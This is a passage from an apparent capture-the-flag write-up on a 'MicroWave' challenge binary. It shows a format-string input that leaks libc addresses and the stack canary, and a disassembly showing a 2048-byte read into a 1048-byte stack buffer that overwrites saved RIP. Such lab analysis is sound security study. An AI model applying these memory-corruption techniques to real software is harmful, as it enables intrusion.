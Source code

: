 ```bash
 --------------------------------------------------------
 |     Welcome to the next generation of MicroWaves!    |
 |                         ***                          |
 | This stylish Microwave with Grill function, includes |
 |      a function that tweets your favourite food!     |
 |                         ***                          |
 --------------------------------------------------------
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food|
           |  q. Exit                       |
           ----------------------------------

           [MicroWave]: 1

           Log in on Twitter:
           username: %p.%p.%p.%p.%p.%p.%p.%p
           password: n07_7h3_fl46

Checking 0xa.0x7ffff7b0ce50.0x7ffff7fd8700.0x555555556ac0.(nil).0xeaa546f902a74f00.0x7ffff7dd7710.0x7ffff7dd7718
Twitter account
```
It is thus possible to read up the stack. The leaked values are indeed interesting and will be used later:
<ul>
        <li><em>0x7ffff7...</em> look like libc addresses</li>
        <li><em>0xeaa546f902a74f00</em> looks like the canary</li>
</ul>
<h3 id="vuln2-stack-overflow">Vuln2: stack overflow</h3>
The second vulnerability is triggered when reading the content to tweet. It reads from stdin (0) and store the result on the stack

```bash

[0x00000ac0]> iz | grep '#>'
vaddr=0x00002adb paddr=0x00002adb ordinal=019 sz=16 len=15 section=.rodata type=ascii string=\n           #>
[0x00000ac0]> axt 0x00002adb
data 0x1007 lea rsi, [rip + 0x1acd] in sub.__printf_chk_0
[0x00000ac0]> pd @0x1007
...
0x00001032      31ff           xor edi, edi // 0 == STDIN
0x00001034      4889e6         mov rsi, rsp // buffer on the stack
0x00001037      ba00080000     mov edx, section..rela.plt  ; "@? " @ 0x800
0x0000103c      31c0           xor eax, eax
0x0000103e      e8ddf9ffff     call sym.imp.read

```

We read up to 0x800 (2048) from stdin to the buffer (on the stack). If we consider the whole block, only 0x418 (1048) are reserved on the stack. We can thus overwrite saved RIP

